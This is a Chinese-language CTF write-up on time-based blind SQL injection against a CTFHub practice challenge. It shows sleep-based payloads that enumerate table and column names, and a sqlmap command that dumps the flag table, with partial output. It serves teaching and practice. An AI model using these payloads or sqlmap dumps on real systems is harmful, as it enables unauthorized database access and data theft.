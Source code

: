 sqli库中的表的数量

```
1 and if((select count(table_name) from information_schema.tables where table_schema=database())=2,sleep(3),1)
```

![image-20240120165526569](E:\学习资料\网安\笔记\笔记截图\image-20240120165526569.png)

猜解表名

```
1 and if(ascii(substr((select table_name from information_schema.tables
  where table_schema=database() limit 0,1),1,1))=110,sleep(3),1)
  ascii(n)=110

3秒后响应，说明第一张表的第一个字母为n
依次得到表名为news
```

```
1 and if(ascii(substr((select table_name from information_schema.tables
  where table_schema=database() limit 1,1),1,1))=102,sleep(3),1)
  ascii(f)=102

3秒后响应，说明第二张表的第一个字母为f
依次得到表名为flag
```

猜解flag表中的字段数

```
1 and if((select count(column_name) from information_schema.columns
 where table_name='flag')=1,sleep(3),1)
```

猜解字段名

```
1 and if(ascii(substr((select column_name from information_schema.columns
 where table_name='flag'),1,1))=102,sleep(3),1)

一样的套路，得到字段名为flag
```

接下来就是用sqlmap或者用脚本

sqlmap

```mysql
sqlmap -u "http://challenge-d8bcb765b7ab40a6.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag columns --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:12:33 /2024-01-20/

[17:12:33] [INFO] resuming back-end DBMS 'mysql'
[17:12:33] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
```